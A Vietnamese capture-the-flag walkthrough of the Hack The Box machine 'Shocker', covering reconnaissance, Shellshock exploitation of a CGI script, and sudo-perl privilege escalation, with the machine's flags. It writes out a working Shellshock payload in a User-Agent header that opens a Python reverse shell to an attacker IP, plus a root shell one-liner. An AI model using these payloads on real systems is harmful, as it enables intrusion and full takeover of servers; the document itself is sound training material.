




# Thông tin máy 


> [!NOTE]
> Mức độ: Dễ
> Url: https://app.hackthebox.com/machines/Shocker
> Nền tảng: Linux 
> Mô tả: Shocker, dù nhìn chung khá đơn giản, nhưng cho thấy mức độ nghiêm trọng của lỗ hổng Shellshock nổi tiếng, đã ảnh hưởng đến hàng triệu máy chủ hướng ra công chúng.

# Recon

## Port scan

> Liệt kê các cổng mở bằng nmap 

```bash
nmap -sSVC -Pn shocker.htb
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-14 12:05 -0400
Nmap scan report for shocker.htb (10.129.55.109)
Host is up (0.060s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.24 seconds
```

> Kết quả phát hiện 2 cổng mở 80,2222 cổng 80 dành cho dịch vụ web 

| Port | Service | Version                         |
| ---- | ------- | ------------------------------- |
| 80   | HTTP    | Apache httpd 2.4.18             |
| 2222 | SSH     | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 |

## Web Service 

### Liệt kê thư mục, tệp ẩn

```bash
feroxbuster -u http://shocker.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 150 -d 2 -x php,html,txt,xml,sh -C 404,500
```

```bash
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://shocker.htb/
 🚩  In-Scope Url          │ shocker.htb
 🚀  Threads               │ 150
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 💢  Status Code Filters   │ [404, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt, xml, sh]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      234l      773w    66161c http://shocker.htb/bug.jpg
200      GET        9l       13w      137c http://shocker.htb/
200      GET        9l       13w      137c http://shocker.htb/index.html
200      GET        7l       17w      118c http://shocker.htb/cgi-bin/user.sh
[####################] - 24s    57018/57018   0s      found:4       errors:100    
[####################] - 24s    28506/28506   1203/s  http://shocker.htb/ 
[####################] - 19s    28506/28506   1500/s  http://shocker.htb/cgi-bin/ 
```

> Phát hiện tệp ẩn `http://shocker.htb/cgi-bin/user.sh` đang chú ý 

### Phân tích đường dẫn ẩn 

> Tệp này thực thi lệnh uptime trên máy mục tiêu và trả về kết quả 



> Vì máy chủ chạy Apache 2.4.18 có cgi-bin và 1 tệp shell nghĩ ngay đến lỗ hổng shellshock CVE-2014-6271
>
> Shellshock là tên gọi của một lỗ hổng bảo mật nghiêm trọng trong GNU Bash, được công bố vào tháng 9/2014. Lỗ hổng đầu tiên được định danh là CVE-2014-6271.
> Bash là trình thông dịch dòng lệnh phổ biến trên Linux và Unix. Shellshock cho phép kẻ tấn công thực thi lệnh tùy ý trong một số tình huống mà ứng dụng truyền dữ liệu không đáng tin cậy vào Bash thông qua biến môi trường.
> Lỗ hổng này đặc biệt nguy hiểm với các máy chủ chạy CGI, vì dữ liệu HTTP như header hoặc tham số request có thể được chuyển thành biến môi trường trước khi chương trình gọi Bash. 
> https://nvd.nist.gov/vuln/detail/cve-2014-6271
> https://access.redhat.com/security/vulnerabilities/shellshock
> https://pentest-tools.com/vulnerabilities-exploits/apache-server-remote-code-execution-shellshock-cve-2014-6271_140

- Kiểm tra sự tồn tại của lỗ hổng chỉnh sửa Header User-Agent với giá trị `() { :;}; echo; echo TEST` cho ra kết quả của lệnh `echo TEST` có thể truyền lệnh vào các thông số trong Header khác như Referer, Cookie,...  



* Truyền lệnh `ls -al` sẽ không thành công mà phải truyền vào đường dẫn chính xác đến file thực thi `/bin/ls -al` mới thực thi lệnh



# Exploit

> Khai thác lỗ hổng ShellLock để tạo 1 reverse shell kết nối với máy mục tiêu 

- Truyền vào User-Agent với mã tạo reverse-shell 
```
() { :;}; echo; /usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.211",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

- Mở cổng lắng nghe kết nối 
```bash
└─$ nc -lnvp 4444             
listening on [any] 4444 ...
connect to [10.10.15.211] from (UNKNOWN) [10.129.55.109] 59272
$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
$ whoami
whoami
shelly
```

- User Flag
```
e1f4bc9b471ae23c2dcd57d6d14b5e57
```
# Privilege Escalation

> Liệt kê các lệnh người dùng shelly có thể chạy với sudo phát hiện có thể chạy `/usr/bin/perl` với quyền root mà không cần mật khẩu 

```bash
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

> Leo thang bằng tạo 1 shell với quyền root `sudo -u root /usr/bin/perl -e 'exec "/bin/sh"'`
```
shelly@Shocker:/home/shelly$ sudo -u root /usr/bin/perl -e 'exec "/bin/sh"'
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

> Root Flag

```
976b6f3a13d96b33762ced1e0e2aeb5d
```

# Kết luận 

> [!NOTE]
> Phòng này ở mức độ dễ 
> Liệt kê thư mục ẩn web phát hiện ra chức năng Apache CGI được bật 
> Từ đó khai thác lỗ hổng shellshock để xâm nhập máy 
> Leo thang qua thiết lập lệnh `perl` quá cao cho người dùng thường 
> - Khắc phục:
>   + Cập nhật bash nên phiên bản mới để vá lỗ hổng shelllshock
>   + Tối thiểu hóa đặc quyền với người dùng thường 


